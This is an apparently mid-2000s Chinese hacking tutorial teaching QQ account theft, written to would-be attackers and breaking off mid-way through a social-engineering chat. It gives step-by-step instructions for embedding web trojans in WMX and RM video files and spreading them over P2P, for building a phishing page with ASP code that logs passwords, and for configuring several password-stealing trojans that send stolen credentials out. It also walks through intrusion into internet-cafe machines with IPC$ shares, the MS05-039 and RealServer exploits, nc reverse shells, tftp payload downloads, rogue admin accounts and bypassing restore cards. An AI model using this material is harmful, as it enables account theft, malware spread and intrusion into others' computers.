打开“心奇电影广告合成器”（图5），看到第一项就是我们要显示的图片了。如果你想用美女做诱饵的话，那就赶快去找个美女图片吧！当然也可以用 QQ 来做诱饵。总之找那种让人有点击冲动的图片就 OK 了。然后第二项是 URL 地址，就是我们的网马地址，点击图片后它会自动打开该页面。第三项是鼠标移动到图片上时显示的信息，把这个信息写得越有诱惑力越好，让别人无法克制住点击冲动就行了。第四项是电影真实地址，我们可以去 SINA 挖一点，他们只是做了简单加密而已，很好破解（也可以随便找个可以看的电影地址）。

好了，设置完成。我们点击生成，WMX 木马就生成了，而且是永远不被查杀的哦！打开测试如图6。还等什么呢？赶快去试试吧！我们用记事本打开它生成的 WMX 文件（图7），看看它的庐山真面目：

```xml
<ASX version="3"> ...
<Banner> 指向显示图片的链接地址
<MoreInfo> 指向网马地址
<Abstract> 鼠标悬停时显示的信息
<REF HREF="mms://nv.sina.com.cn/ent/2006/07/17527160.wmv" />
```

这个就是真正的 WMV 文件了！分析完毕，我们可以用 VB 也写一个配置程序出来哦！

这个生成的 WMX 文件可以正常观看，WMV 加密的那个不可以（因为没有正确证书啊）。这样也可以使中木马的人尝点甜头，让他帮我们把 WMX 木马传播出去！

### 2. RM、RMVB 文件插马

Helix Producer Plus 是一款图形化的专业流媒体文件制作工具。这款软件可把其他格式文件转换成 RM 或 RMVB 格式，也可以对已存在的 RM 文件进行重新编辑。在编辑同时，我们可以把事先准备好的网页木马插入其中。这样只要一打开这个编辑好的媒体文件，插入其中的网页木马也会随之打开，甚至还能控制网页木马打开时间，让网页木马更隐蔽。

```txt
u 00,01,00.0 00:01,30.0 http://bbs.54jj.cn
```

新建一个文本文件 mm.txt，输入上述内容。其含义是在 00:01:00.0 到 00:01:30.0 这个时间范围内打开后面的 URL。将 RM 文件重命名为 1.rm，复制到 rmevents.exe 所在目录，打开 CMD 进入该目录后执行命令生成 2.rm：

```bash
rmevents.exe -i 1.rm -e mm.txt -o 2.rm
```

**注：**rmevents.exe 的默认路径为：`C:\Program Files\Real\Helix Producer Plus\RealMediaEditor\`

生成成功后，可以利用 P2P、BT 软件传播出去，选择热门内容并起合适名字，可获得更大的传播量。

## 钓鱼页面

钓鱼式攻击（Phishing）又名钓鱼法或网络钓鱼，是企图通过电子邮件或即时通讯消息把用户诱骗至仿冒网站，冒充可信机构以骗取敏感个人信息（如口令和信用卡细节）的一种社会工程攻击形式。这里着重说明钓鱼式盗 QQ。

思路是选择一个可用于钓鱼的页面（如具有 QQ 登录入口并能吸引用户关注的页面），下载相关网页后进行修改与伪装，并将账号密码记录下来。文中以 QQ 音速相关页面为例进行说明。

先把页面改成 index.htm，再把“[QQ 音速]音速种子三期.files”这个文件夹改成 inc，用记事本打开 index.htm，把所有“[QQ 音速]音速种子三期.files”字符串替换成“inc”来保证链接正确（图2）。

为了做得更真实一些，我们再查看这个网页文件里是否有使用相对路径的连接；如果有，就把地址修改完整。举个例子，这里有个 SWF 文件连接地址是“/2006web/flash/170-205.swf”，那么就要补完整成为“http://r2.qq.com/2006web/flash/170-205.swf”（图3）。如果不这样做，原先显示这个 Flash 的地方就会变成一个大红叉。

注意一下，腾讯在网页里声明了不能赠送种子之类内容，太影响大家心情了，咱们用记事本打开把那段文字改掉吧（图4），随便找个借口说腾讯要赠送大家一批音乐种子云云。对了，还有标题栏显示内容，总之说得越诱惑、越让人心动越好。下面来看看我做的页面（图5）：“每个 QQ 号码只可领取 2 个种子，限量 100000 颗，送完为止”，这个设置巧妙吧？嘿嘿！一般人看这个 80% 都相信了，当他们赶忙登录的同时也就掉进我们的陷阱了。

陷阱做好了，人家来登录了，我们要怎样把他们输入的 QQ 号和密码保存下来呢？这需要用到 ASP 文件来接收。首先来处理登录页面，就是 inc 文件夹下的 commprelogin.htm 文件（图7），用记事本打开它，在里面找到输入框代码：

`<INPUT class=login_table maxLength=9 size=12 name=u>` 这个是 QQ 号码输入框；  
`<INPUT class=login_table type=password maxLength=20 size=12 name=p>` 这个是 QQ 密码输入框。

这两个都不用改动。需要改动的是 ACTION 的地方，也就是点击登录时所提交的对象。这里可改成 `login.asp`，显得逼真些。

在《黑客 X 档案》8 月刊里登的一篇 QQ 钓鱼程序里，找到 `pct_qq_action.asp` 这个文件，重命名为 `login.asp` 后打开（图6），把程序默认存储数据库文件名改为 `qqpass.mdb`（也可以改成别的）。

这是为了防止别人盗取我们的劳动成果。如果这里进行了改动，就要把同目录下的数据库文件名也改成相应名字。看到 `qq=Request("u")`、`pass=Request("p")` 这两条语句，也就是说 ASP 文件会把提交上来的 u（QQ号）、p（密码）接收并记录到数据库中，然后弹出一个提示框说“系统忙……请您稍后登录！”，这个就是骗人的了。

`window.location="http://pet.qq.com/index.shtml"` 的意思是把当前页面自动转向到该网址。我们给它改掉，改成返回原来的登录框，把这个 URL 改成 `inc/commprelogin.htm`。

补充一点，ACCESS 收信方式太麻烦，每次都要把 MDB 数据库下载下来。那么我们就做个跟盗 QQ 号软件那种收信方式一样的接口：把里面的 `num` 改成 `u`，把里面的 `pass` 改成 `p`，再把 `response.write "Send OK!"` 删除，最后把提示系统正忙和跳转代码加到末尾即可……改掉就 OK 了！这样就可以和普通盗 Q 软件一样使用文本收信。其实还可以做邮件收信，因为大部分空间都支持 JMAIL 组件。

现在整理一下，把保存修改后的网页文件放在一起，然后把 ASP 文件和数据库文件都挪到同一个目录里，选择支持 ASP 的空间并上传发布……

## 盗QQ武器之 Qhook

现在盗 Q 软件越来越厉害了，想当年俺还用那种只提供把 QQ 号和密码发到邮箱的软件，再看看现在，功能越来越丰富。今天第一个出场的是盗 Q 新秀 Qhook，它可以获取 QQ 号码、密码、QQ 积分、QQ 游戏币、QQ 游戏点、密码保护等信息……

新增获取 QQGAME 登录密码，支持多个版本，采用特殊线程插入技术，无启动项、无进程，突破各类防火墙。打开 Qhook，界面做得挺漂亮的（图1）。这款软件收信方式分为 2 种：

- 一种是普通信箱收信，会将截获的 QQ 密码信息发送到设置好的邮箱，并可设置发信邮箱等参数。
- 另一种是 ASP 收信（网站收信或空间收信），原理是在支持 ASP 的空间里放一个 ASP 脚本文件。当木马截获一个 QQ 密码时，就向这个 ASP 脚本文件提交参数，然后脚本再处理，把 QQ 号码和密码写到预先设置好的文件中，从而完成 ASP 收信。

首先去申请 2 个邮箱（为了安全），取名为 qq_fa@126.com 和 qq_shou@126.com（小编提醒：126 邮箱长时间发 QQ 信件会被以“发送垃圾邮件”为由锁定，建议换别的，据说 tom 的比较好）。

下面开始配置传统邮件收信方式的木马：在收信邮箱账号里填入 qq_shou@126.com，在发信邮箱账号里填写 qq_fa@126.com，再在发信服务器里选择和发信邮箱对应的 SMTP 服务器地址。这里使用 126 邮箱，就选择 smtp.126.com。为了准确无误，先发一封测试信，点击测试按钮后，进入收信邮箱看看信发来了没有，如图2。如果有，说明配置没问题。

再看其他选项，这个软件可以过滤重复的号。比如一台机器上 1 个 QQ 登录了 2 遍，在收信邮箱里只会看到一封，使我们收邮件时轻松许多。运行过 ** 秒后关闭 QQ，这个功能不错，特别适合网吧。因为网吧里大多有还原软件或还原卡，如果种马后对方一直登录着 QQ 不再重新登录，是没法盗号的，所以我们就把他的 QQ 关掉！他就会再次启动 QQ，密码就送过来了！“立即删除自身”就不用说了吧，可以更好隐藏我们。然后点击选择图标，选择能迷惑对方的图标，这样 QQ 木马就配置好了。点击生成木马，选择路径保存即可。

下面介绍另一种先进安全的收信方式：ASP 收信。首先要有一个支持 ASP 的空间，把程序自带的 QQsoft.asp 上传到空间中，然后在程序 ASP 收信设置处填写该 ASP 文件的 URL 地址（即可访问地址）。其他设置相同，这样就可以生成一个 ASP 收信的 QQ 木马了。

那怎么收 ASP 的信呢？先设置一下。这个接口 ASP 文件默认会把 QQ 账号信息写到默认文件中；如果被人知道就不好了，所以要修改它。先看默认写入文件（图3）：

- QQSoft.txt：保存正常号码密码  
- QQSoft-MB.txt：保存无密码保护的 QQ 号码和密码  
- QQSoft-HY.txt：保存会员 QQ 号码和密码  
- QQSoft-YXB.txt：保存游戏币大于或等于过滤值的文件  
- QQSoft-YXD.txt：保存游戏点大于或等于过滤值的文件  
- QQSoft-JF.txt：保存积分大于或等于过滤值的文件  
- QQSoft-DJ.txt：保存等级大于或等于过滤值的文件  

比如要修改保存正常号码密码的文件，就修改 StrLogFile 的值。例如改为 52qq.txt，那么正常号密就保存在和 ASP 同目录下的 52qq.txt 中。其他设置类似。简单方法就是直接替换想修改的文件名即可。

设置积分大于 VAJF 的单独写一个文件，文件名为 QQSoft-JF.txt；如果不想单独生成文件，设置为 99999999。例如：VAJF=1200，写文件时会把大于 1200 积分的号单独写到 QQSoft-JF.txt，格式为：QQ号码----QQ密码------QQ积分数量，依次归类；游戏币设置修改 VAYXB=10000，则会把游戏币数量大于或等于 10000 的号单独写文件。修改后同样可以测试，如果生成了文件则说明可用，如图4。

怎么样，这款软件功能很强大吧？有了它，我们不光能盗 QQ，还可以把密码保护、会员、游戏币、游戏点、积分、等级这些都分类整理好，大大方便账号处理工作。大家赶快试试这款功能丰富的软件吧！

## 盗Q神器之盗Q黑侠

盗Q黑侠这个软件能监听QQ2005、QQ2006并获取其登录密码，和下载者有机结合，做成网页木马是很不错的。它生成的服务端突破了大部分防火墙，而且还有一些特别的功能，比如通过U盘等USB移动设备传播。还有一个特别好的功能是可利用邮件特征字符实现封信或封邮箱等效果。

这款软件可以自定义内容，比如邮件标题头、邮件标题符号、号码字符、密码字符来防御。先设置邮箱收发信方式（图1）：选择发信服务器（如smtp.163.com），填写邮箱地址和密码，完成后可点击邮件发送测试（图2）。

再看网站收信方式（图3）：把程序自带的 `dqhx.asp` 改名并编辑，修改其中相关文本后上传到支持ASP的空间，得到外部访问URL。回到软件设置，在网站收信地址中输入ASP文件URL，点击网站收信测试查看效果（图4）。


附加设置中，服务端图标可替换为游戏图标、图片图标、文本图标等，也可设置运行后自动删除自身、运行若干秒后关闭QQ，并可选择通过优盘传播以增加传播路径。

软件还可在邮件标题前添加分类标识，如不同网吧使用不同前缀，便于区分来源。可把敏感词替换为其他词（如把“号码”“密码”替换）以规避服务器屏蔽，确保收发信内容不被拦截。

最后点击生成服务端即可生成。若测试时优盘被感染，可先用清除工具处理，再将清除批处理文件复制到优盘执行，完成后拔出并重新插入电脑即可。

## 盗Q神器之疯狂QQ木马

下面给大家介绍的这款盗Q软件功能也不小哦（图1）。这款程序有较强的密码截取功能，保证截取密码数据和QQ号码，提供ASP收信与SMTP收信等功能，并可设置发信邮箱和收信邮箱。

蠕虫功能是本软件的亮点，增加QQ“爱虫”功能，可利用QQ发送文件自动传播副本给对方并使其感染。软件还提供无壳版本，便于后续免杀处理。


先配置ASP收信。修改程序自带的ASP接口文件（图2），把其中的qqnum.txt改为希望保存生成数据的文件名；再通过FTP把ASP文件传到空间，并将可访问URL填入程序“网页地址”项。


```asp
<%
num=request("num")
pass=request("pass")
set fs=server.createObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("qqnum.txt"),8,True)
file.writeline num+"----"+pass
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

普通信箱收信配置中，填写收信邮箱、发信邮箱和密码，选择SMTP服务器，点击“测试发信”检查配置是否正确（图3、图4）。


软件还可给QQ发送消息加入“尾巴”（图5），在文本框中写入迷惑性文字；可选择是否加壳，先生成后再用偏僻壳处理以提高规避能力。


配置完毕（图6）后点击“生成木马”，选择保存路径即可完成生成。


## 盗Q神器之邮箱QQ大盗

呼噜QQ大盗最大特点是可以获取用户QB、QQ积分、QQ游戏点等信息，让我们可以很清楚地了解QQ号的价值，完美破解QQ2006键盘保护，密码框不会出现红叉叉，所有版本QQ通杀，包括最新的QQ2006贺岁版。并且采用了特殊的线程插入技术，没有启动项，没有进程，突破很多的防火墙（如：天网、卡巴、瑞星、金山网镖、江民等）。用户登录成功后再发信，从而杜绝重复发信、密码错误发信情况，不再收取重复信件，提高软件工作效率，也避免了我们的垃圾信件。能够立即删除自身，让木马不留痕迹。还具有定时关闭QQ的功能！怎么样？功能很强大吧！


首先来配置传统的SMTP收信方式（图1），先勾选中邮箱收信配置来激活它。填写收信邮箱，用来接收QQ密码，再填写发信邮箱和密码，然后再填写发信邮箱所使用的SMTP服务器就可以了。点击测试发信来检查我们的配置是否有误（图2）。


说完了SMTP发信，再看看网站收信。先来修改程序自带的ASP接口文件（图3），QQ.TXT是存放QQ号和密码的文件，QQJF.TXT是存放QB、QQ积分的文件，大家看着改就可以了。然后把这个ASP文件上传到支持ASP的空间中就可以了！回到程序中，同样先勾选中网站收信配置来激活它，在输入框中填写我们ASP文件的外部访问URL地址。这样就基本配置OK，点击测试发信来测试一下（图4、5）。

```asp
strLogFile="QQ.txt"
strLogFile1="QQJF.txt"

QQNumber=request("Number")
QQPassword=request("Password")
QQJF=request("jf")
QQGb=request("Gb")

if qqJf="" then
  qqJf="no"
end if
if qqGb="" then
  qqGb="no"
end if
```

程序还自带了自动发送设置，勾选中自动发送设置，可以在里面放一些很诱人的文字来增加成功率，需要注意的是，每行只能够放一条信息。比如：给你个好玩小游戏.swf.pif，看到了吧？后缀是PIF的，所以在每条信息最后加一行.PIF！然后可以选择多少秒关闭QQ、删除自身以及获得相应信息的选项，大家自己可以根据需要来设置。


全部设置完毕，点击生成木马。功能强大的QQ木马就诞生了。

## 盗Q神器之极品QQ盗

这款盗Q工具最强大之处是可以自动传送给QQ好友，通过这个传播途径我们的QQ木马会广为流传哦！该版本保持了极品QQ设置风格，还加了无进程、穿墙、插进程、COM保护、QQ自动传文件、POPO自动传文件、自动压缩包等技术。特别还为菜鸟们提供了发信服务器，大大方便小菜鸟们！怎么样？不愧是极品了吧！

先来配置木马，如果你不知道怎么去填写SMTP、发信邮箱，也可以来盗号的！你只需一个用来收信的邮箱就可以了，在接收Q号邮箱处填写你的邮箱地址即可（图1）！可能你要问了，那么我怎么去收密码呢？你需要做的就是登录他们的官方网站 http://www.jpqqd.com/，然后登录你所输入的邮箱地址即可查收（图2），因为要经过服务器，所以用服务器发信速度会慢一点。把生成的马发给人家运行就可以收到了。

当然你也可以选择传统的收发信方式，点击“我想使用自己的邮箱账号发信”就显示出了配置界面（图3），接收Q号邮箱填写你用来收信的邮箱地址，发信账号就是你用来发信的邮箱地址，然后输入发信邮箱的密码，再根据不同的发信邮箱选择相应的SMTP服务器即可。为了测试我们的配置是否OK，点击测试发信，然后就可以去接收邮箱里看看有没有测试邮件发来（图4）。

下面为大家介绍的是这款软件的另一特色了。类似于QQ小尾巴，就是在给好友发信息的时候在最后会跟上设定的传送文件的信息，迷惑性很强哦。你想，如果你的一个好友跟你说这是她的玉照或者是最新刷QB的教程你能不心动吗？这个设置就要看大家的想象力了，修改里面的名称就OK了，不过后缀必须是可执行文件的后缀，最好不是SCR、EXE后缀，因为腾讯为了传送文件的安全，把EXE等一些可执行后缀都做了防护，不过比如PIF和CMD都没有防护。

高级设置里面还有一些可以过滤掉重复的号码来减少垃圾信件的产生。当然要选中自动传送文件给好友。也可以选择在首次运行后关闭QQ来增加收信数。还有运行后自动删除功能。好了，设置得都差不多了，还可以自己选择一个具有迷惑性的图标，然后点击生成盗号器就OK了！怎么样？很简单啦！


## 盗Q神器之完美QQ盗


完美QQ盗利用现在比较领先的进程插入技术，使QQ盗本身无进程、无注册表启动项，增加文件自保护和COM+钩子保护等功能。使用API-HOOK完美破解QQ2005-QQ2006的驱动键盘保护，不会出现红叉。包括一些特殊版本、珊瑚虫、飘云版、黑客版、防盗版之类的修改版QQ。增加文件下载连接，只需要填写下载连接，就可以直接下载您URL上面的木马或程序，这样就可以用中别的木马，例如：灰鸽子、梦幻木马、PcShare等。

首先来设置传统的SMTP收信方式，填写发信邮箱、收信邮箱、发信邮箱密码，再选择相应的SMTP服务器就OK了（图1）！点击发信测试来看看我们的配置是否正确（图2）。


再来看看ASP收信方式的设置，先把程序自带的ASP文件修改一下（图3），把里面的qqurl163.txt改成别人猜不到的就可以了，例如：log.jpg。可能大家要问了，怎么是个图片文件的后缀，技巧就在这个地方了，如果把它泄露了也没关系，当别人WEB登录查看这个文件的时候就只会显示为红叉的图片文件而已，但是里面的内容却是QQ号和密码，让他们一头雾水也找不到我们的成果。那我们自己怎么来查看呢？可以FTP登录，把这个文件复制到本地再用记事本打开就OK了！当然也可以把后缀更改成别的，例如MP3、EXE、RAR等等。修改完毕后再把ASP文件上传到支持ASP的空间中，获得它的外部访问URL地址，然后把URL地址填写到网页地址里，同样可以点击发信测试来看看我们的配置有没有问题（图4）。

```asp
<%
num=request("num")
pass=request("pass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("qqurl163.txt"),8,True)
file.writeline num+"---"+pass
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```


再看看附加功能。这款软件提供了下载者功能，这给我们带来了极大的方便。在输入框中填入想下载的程序的URL地址就可以了！它在执行的时候会自动下载并执行。还可以选中给QQ加上尾巴，可以增加传播途径，在输入框中填入具有迷惑性的文字，让接收的人以为是真的就OK了！最后当然是生成QQ木马了！也可以选择不加壳就生成，还可以加一个偏僻的生壳来达到免杀的效果。

## 网吧入侵 Follow Me 6.10

现在网吧的安全做的不是很好，使很多的盗号现象发生在网吧里。我们也来凑凑热闹，最常见的就是利用IPC漏洞了。就是说机器的登录用户和密码每台都一样，而且是管理员权限，默认共享也开着。大大方便我们的行动，就可以简简单单地获得所有机器的控制权了，成为网吧的无敌老大了。

先来了解一下自己机器的情况。在“网上邻居”里点属性打开“本地连接”，再选择“属性”，在“TCP/IP”协议上双击可以看到自己的IP地址。（图1）所谓知己知彼，百战不殆嘛，我的IP是192.168.1.2，我坐的是2号机器，看来这个网吧的排列方式就是最后面的数字了。


那如果想盗5号机器的QQ号要怎么做呢？肯定是黑掉192.168.1.5了！首先要知道系统的管理员账号和密码，可以直接在CMD下运行FINDPASS来读取（图2），FINDPASS也可以用在别的类似环境下使用。（小编注：findpass.exe在Windows 2000下效果很好，可是XP下是不可以的，XP的登录密码可以使用Advanced Windows Password Recovery这个工具获取，Windows 2003未打SP1补丁则可以使用findpass2003。）获得账号后再打开对方的默认共享来把配置好的QQ木马传过去（图3）。


配置木马这里就不提了。地址 `\\192.168.1.5\c$\` 为他的机器系统默认开放的，192.168.1.5是对方的IP地址，C$是系统默认开放的共享了。C$就是对方C盘的默认共享，如果你想进他的D盘，那就是 `\\192.168.1.5\D$\` 了！回车直接进入，然后把木马直接复制过去，现在可以更改他机器里所有的文件了！


光是复制过去还不行，他没有执行也是白搭。那怎么样让他执行呢？答案是使用TELNET，这个服务可以让我们登录他的机器来执行任何命令，当然也包括打开一个程序了。但是对方没有开放TELNET服务啊，怎么办呢？在“我的电脑”上……


右键，选择“属性”“管理”，打开本机的“计算机管理”（图4）。在“计算机管理”上单击右键，选择“连接到另一台计算机”，这时会弹出一个对话框选择计算机。然后在另一台计算机里填上对方的IP地址（图5）。回车，它会提示要输入密码，知道刚才使用FINDPASS来查密码的用处了吧？账号就是登录的账号。输入刚才用FINDPASS获得的密码就可以进去了。然后把对方“服务”里面的TELNET给启动起来。（图6）

现在再打开一个CMD窗口（图7），输入 `TELNET 192.168.1.5`，会出现一个提示，它说是不是使用本地账号登录？输入Y就可以进入了，这时使用START命令就可以执行程序了，现在对方已经运行我们的QQ木马了，他的QQ就快成我的了。

如果你觉得TELNET不好弄的话呢，我再来介绍个工具：Recton2.5。

这个软件可以帮助我们做很多事，比如可以开对方的3389、开TELNET、开服务、让对方执行CMD命令、清空对方日志、给对方关机或者重新启动、管理对方机器的进程、服务和共享信息，还可以做种植者用哦！


使用这个工具还是需要得到机器的管理员账号和密码。怎么做呢？点击“种植者”（图8），远程主机栏填上对方的计算机名或者IP地址，账号和密码就填机器登录的账号和密码（可以通过FINDPASS或其它工具在本机中查出来）。然后点击“获得共享目录”，来得到对方当前提供共享的目录。点“本机文件”选择早就生成的盗Q木马，再选择一个共享目录，然后再点击“远程执行”，现在对方机器就自动上传并且执行木马了。

这个IPC种植者是不依赖Task Scheduler服务的，但是依赖IPC$和目录共享的。那么如果对方没有开共享呢？那么我们就来给他开启！打开“共享”选项卡（图9），在远程主机的地方输入对方……


……的计算机名或者IP地址，输入机器的登录账号和密码。再在列表地方右键点击“获得共享信息”，就可以通过点击右键来选择“创建共享”来给对方开共享了。共享打开后呢，就可以使用“种植者”来操作了。也可以在“种植者”里选择“HTTP下载”方式（图10），这个方式不依赖IPC$和任何目录共享！但是需要把木马放在WEB空间中，也就是让对方来自动下载并执行木马。先把木马传到空间中，得到URL地址，比如我的地址是 `http://bbs.54jj.cn/mm.exe`，把URL地址填写在“文件目录”里。可以设定启动参数哦。点击“开始下载”就可以了，对方就可以下载我们设定好的木马了。


但是如果网吧把安全设置得很BT呢？如果他们把IPC$直接关闭呢？如果他们把网卡的共享协议取消掉呢？！还是有办法的，通常网吧都有还原卡（废话），还原卡把坏的东西给屏蔽了，那么好的东西呢？当然是也屏蔽了！比如系统或者IE的补丁，所以就找个远程溢出的工具来拿对方的权限，有了权限什么都好办。

那就给大家说说MS-05039这个漏洞，这个漏洞在网吧很常见的，成功率很高的。下面就给大家一个完整的入侵事例，让大家有个整体性的了解。

先来使用MS-05039扫描器来扫一下这个网吧的内网机器（图11），看到有一台主机是有漏洞的，`192.168.0.89` 这台机器有漏洞。准备好MS-05039的溢出程序和NC，把它们放在C盘根目录下，打开一个CMD，执行 `NC -VV -L -P 51`（图12）。在本地监听一个端口，因为这个溢出程序是需要反弹连接的。


然后打开一个CMD窗口，执行命令 `MS05039.EXE 192.168.0.89 192.168.0.55 51 1`（图13）。解释一下，`192.168.0.89` 是对方的IP地址，`192.168.0.55` 是本机的IP地址，`51` 是在本机监听的端口，最后那个 `1` 是参数，有0和1两种，如果不成功，可以再试试0。

回车，OK。我们再来看看监听端口的CMD窗口，可以看到已经有一个连接了，现在得到了对方机器的一个SHELL了（图14）。是不是很快呢？远程溢出是最爽的入侵方式了。


在 SHELL 下执行“NET USER X X /ADD”（图15），意思就是添加一个名字和密码都是 X 的系统账号；“NET LOCALGROUP ADMINISTRATORS X /ADD”，这个的意思就是把刚才加的 X 这个账号提升到管理员权限。因为刚才加的用户默认是 USER 权限，太低了。“NET SHARE C$=C:\\”，这个意思就是把对方的 C 盘共享出来。在资源管理器的地址栏里输入 `\\192.168.0.89\\C$\\`，然后再输入账号和密码，现在对方的 C 盘就出现在我们的面前了。把配置好的木马复制过去，在刚才得到的 SHELL 中切换到 C 盘目录，然后直接执行“START C:\\MM.EXE”，这样对方就运行了我们的木马了。


现在的许多网吧都会把自己的服务器做成电影服务器，吸引了不少的顾客，当然也就自然有了网吧的内部网站。如果是在这个网站上挂马的话，效果一定不错。我们这里就有个网吧把 IE 的首页设置成了内部网站地址，而且 WEB 服务器就是电影服务器。就以电影服务器为突破口，然后挂马，挂出了不少的 QQ 靓号。我就来讲讲这个故事吧！

电影服务器一般使用 REAL SERVER 软件来架设，这个软件在 8.0/9.0 版本上出现过一个漏洞，而且是远程溢出漏洞哦。先在 CMD 中不加参数直接运行一下看它的说明（图16），这个工具分别可以对 WIN 和 LINUX 系统进行攻击。执行“THCREALbad.exe 192.168.1.2 2”，它意思就是对 IP 为 192.168.1.2 这个服务器进行检测，判断它的系统是 WIN 还是 LINUX，还可以判断出 REAL SERVER 的版本来哦，我这里是个 WIN 系统的服务器。


那么我就执行“THCREALbad.exe 192.168.1.2 1”（图17），这个就是真正的攻击行动了，OK。程序给我提示了，连接它的 31337 端口。现在 REAL SERVER 已经不能正常提供电影服务了，所以要选好时间，当然也要手脚麻利点，否则被发现就不太好了。紧接着打开一个 CMD，使用 NC 来连接服务器的 31337 端口（图18），OK。同样成功地返回了对方的 CMD SHELL。


光在 CMD 下活动也不好啊，给它开鸽子来控制。就使用 TFTP 来上传鸽子吧，打开 TFTP 的服务程序（图19），把鸽子给复制到和这个程序同级目录下就可以了。然后我们再在对方的 CMD SHELL 中执行“tftp -i 192.168.1.5 get gezi.exe”（图20），这个的意思就是连接 IP 为 192.168.1.5 这个地址，在 TFTP 服务端下载 gezi.exe 这个文件。看 TFTP 服务端的显示（图21），同样 OK。程序下载完毕，就再执行“start gezi.exe”来执行，现在就可以上钩子来搞他了，找到 WEB 目录后，把配置好的网马给他挂上。


最好是把网马和 QQ 木马都放在服务器上，这样可以保证速度。一般按照人们的心理会先开 IE 再上 QQ 的，所以我们就可以盗更多的 QQ 了！大家来看看我的成果吧（图22）！讲了这么多方法，相信大家可以找到一种适合自己的了。

### 硬盘网吧还原保护

#### 一、破解硬盘还原卡

现在绝大多数的网吧都安装了还原精灵或者还原卡来保护系统的安全和稳定，难道就真的安全了吗？非也，听俺细细道来。

### 1. 硬盘保护卡克星

第一个出场的是硬盘保护卡克星（图1）。这个软件可用于破解市面上绝大多数各种类型的硬盘保护卡、系统还原卡、还原精灵等，破解速度极快，同时具有清除硬盘分区和低级格式化硬盘等功能。可运行在所有的 Windows 平台，包括 Windows95/98/ME/2000/XP/2003 等，也可运行在纯 DOS 环境和 Windows 3.x 下。

如选择“仅破解保护卡”，重启机器后，绝大多数硬盘保护卡将失去作用，可以对硬盘保护卡重新设置所有设置，包括密码。如选择“快速格式化硬盘”，不管机器中是否插有硬盘保护卡，均可用于对硬盘清除所有分区信息，使硬盘快速完全恢复出厂设置。如选择“完全格式化硬盘”，该方式与“快速格式化硬盘”方式类似，但所需时间很长，除非“快速”方式无效，才采用这种方式，一般不需要使用。一般使用的话，先选择硬盘，这个通常就是“IDE0 主硬盘”，方式选择“仅破解保护卡”就可以。运行的时候记得要关闭其他所有的程序，运行后机器会自动重新启动，还原卡就被我们给清除了。

### 2. 直接硬盘访问程序

第二个出场的是直接硬盘访问程序（图2）。这款软件的功能很多，可以直接读取小哨兵/华苏还原卡的密码，可以读取还原精灵的密码，可以直接把小哨兵/华苏还原卡卸载掉，给硬盘加/解逻辑锁，还可以恢复 MBR 来卸载还原精灵。


#### 二、破解还原精灵

也有很多网吧为了减少成本而使用还原软件，比较著名的就是还原精灵了，那么我们要怎么办呢？当然是借助工具的帮忙咯。

### 1. 还原精灵移除程序（逆风修改版）

第一个出场的是还原精灵移除程序（逆风修改版）（图3）。这个软件是由还原精灵移除程序修改来的，只要在验证密码的时候随便填个密码就可以完成卸载工作了，相当地方便。


### 2. 还原精灵清除器

第二个出场的是还原精灵清除器（图4）。程序会把系统中的所有硬盘的 MBR 都清除为正常的 MBR，程序支持 9X/NT/2000/XP 系统。运行这个程序的时候要注意关闭所有的窗口，运行后它会自动重新启动机器。我试用过这个软件，感觉不错。


### 3. 还原精灵密码破解工具

第三个出场的是还原精灵密码破解工具（图5）。工具如其名，它可以破解出还原精灵的密码来。首先要选择物理硬盘，就是说机器当前安装还原精灵的硬盘代号。一般机器只有一个硬盘，那么我们就填写 1，然后直接点击“读取还原精灵密码”，就可以把密码破解出来了。


### 4. 还原精灵 5.0 密码读取器

第四个出场的是还原精灵 5.0 密码读取器（图6）。这个是广外女生的作品，主要是针对还原精灵 5.0 的破解。我觉得这个比移除要好，因为如果管理员发现一台机器的还原作用失效后，他肯定会再安装一个；但是如果我们知道密码的话，就可以随便修改而不被管理员发现了。而且我发现很多网吧的还原精灵密码在每个机器上是统一的，那么我们不止破解了一台机器，而是破解了全部的机器哦。还有如果管理员使用相同的密码的话，我们的收获就更大了，比如收费管理系统的密码、管理员的邮箱、QQ 号、网吧在线充卡系统的密码等，都可以轻松得到了。


### 5. 还原精灵自带的 readpwd.exe

在安装还原精灵时会带有一个还原精灵辅助工具，即厂商提供的密码读取工具 readpwd.exe。运行它也可以得到还原精灵的加密密码，格式类似这样：[DB][B8][5E][79][3E][3B][5E][C5][BD][B2]。把该加密密码发送到这个信箱：info@yuanzhi.com.cn，只需一两天就可以得到软件开发商发来的密码。


### 6. 转存精灵

说完了这些，再看看转存精灵（图7）。它可以不破解还原精灵而实现文件转存的梦想，从而做到神不知鬼不觉的效果哦！程序里 Server 项里选择程序自带的 server.exe 文件，然后在木马项里选择我们的木马程序，最后选择一个保存的地方。还可以选择一个迷惑性强的图标，最后直接点击生成就可以了！运行生成的程序就可以了。当然如果我们用这个程序来挂马的话，即使对方有还原精灵也没有关系，它会自动转存嘛！嘿嘿，是不是网吧挂马的首选啊！？

说了很多了，再补充点：还原卡或者还原精灵的密码我们也可以通过别的途径获得，比如网吧服务器的密码、管理员的一些个人密码、路由器的密码，还有收费管理程序的密码等，都有可能正好是还原精灵的密码。因为非常多的懒人都喜欢在不同的地方使用同一个密码（这也是社会工程学的一种非常好的运用）。

## 社会工程盗号实践

社会工程学就是通常以交谈、欺骗、假冒或口语等方式，从合法用户中套取用户系统的秘密。在入侵或者是盗号时，往往用社会工程学能使你事半功倍。而真正的黑客高手一定是非常善于使用社会工程学的。

笔者不才，也有过一次成功的经历，把过程记录了下来供大家参考。

最近一个 MM 说 QQ 上有个人很可恶，老是骂她。善良的我当然看不下去了，不给这个人一点颜色瞧瞧怎么行！于是我先看了一下此 QQ 号有没有申请密码保护，结果发现他申请了！郁闷！那试着申诉吧！等了 2 天，申诉失败！极度郁闷（啥都不知道，申诉成功率当然低了！）

这怎么办？看他 QQ 详细资料，有邮箱，163 的，咱试着破解一下。通过密码找回功能碰碰运气，结果发现需要提供出生年月日。怎么办呢？先换个 MM 的 QQ 号加他聊聊看吧：

```
==小猪哼哼== 19:14:50
哥哥你多大了？

★心若无尘★ 19:15:10
23，你呢？（没想到他这么好骗）

==小猪哼哼== 19:15:35
23？还在上大学哦？（一定要注意口气）

★心若无尘★ 19:16:14
嗯，我在山东XX学院读书。（切，破学院）

==小猪哼哼== 19:16:57
呵呵，我是湖南的。

★心若无尘★ 19:17:20
你也上学？

==小猪哼哼== 19:18:08
